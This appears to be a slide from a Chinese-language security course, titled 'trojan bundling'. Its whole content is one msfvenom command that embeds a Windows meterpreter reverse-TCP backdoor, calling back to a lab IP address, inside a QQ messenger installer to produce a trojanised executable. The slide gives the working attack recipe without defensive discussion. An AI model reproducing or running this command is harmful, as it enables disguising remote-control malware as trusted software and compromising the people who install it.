

木马捆绑

捆绑命令：
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.47.130 lport=5555 -x QQ9.7.6.28997.exe -f exe -o /home/bronya/文档/test_bundle.exe